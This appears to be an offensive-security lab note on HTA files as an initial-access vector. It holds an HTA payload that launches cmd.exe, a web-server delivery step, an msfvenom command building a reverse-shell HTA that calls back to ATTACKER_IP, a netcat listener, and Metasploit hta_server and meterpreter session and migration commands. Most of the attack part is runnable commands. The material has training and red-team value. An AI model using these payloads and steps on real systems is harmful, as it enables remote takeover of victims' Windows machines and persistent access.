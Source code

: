 HTA files are an ***executable HTML file (.hta)*** that runs as a standalone applications which ***execute using the same technologies as Internet Explorer***, but without the strict security model and UI of a browser. This means that if not altered or disabled, ***this file extension can be run on double click (through `mshta.exe`) as a fully trusted application***, with higher privileges than a normal HTML document.

It is useful for ***execution, persistence, and defence evasion*** because they run outside the browser security sandbox with full system permissions since `mshta.exe` executes outside of Internet Explorer.

It allows you to ***create a downloadable file that contains display and rendering information*** often using `JScript` and `VBScript`. The LOLBINS tool `mshta` executes HTA files. It can be executed by itself or automatically from Internet Explorer.

##### Example to Execute `cmd.exe` using `ActiveXObject` in our Payload
**Attacker's Machine**
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

**Start the Python Web Server**
```
python3 -m http.server 8080
```

**Victim's Machine**
In the URL:
```
http://IP:8080/payload.hta
```

---
### HTA Reverse Connection
Create a reverse shell payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f hta-psh -o thm.hta 
```

Once the victim visits the malicious URL and hits run, we get the connection back:
```
nc -nvlp PORT
```

---
### Malicious HTA via Metasploit
Under the exploit section in Metasploit:
```
use exploit/windows/misc/hta_server
set LHOST IP
set LPORT PORT
set SRVHOST ATTACKER_IP
set payload windows/meterpreter/reverse_tcp
exploit
```

Metasploit will produce an URL: `hxxp://10.10.87.206:8080/wRp2H1eOFjx.hta`. 

**Interact with the Meterpreter Session**
```
sessions -i 1
```

---
#### Migrate Process
We need to migrate into another process to make the ***connection stable if the application is closed***.
```
meterpreter > run post/windows/manage/migrate
```
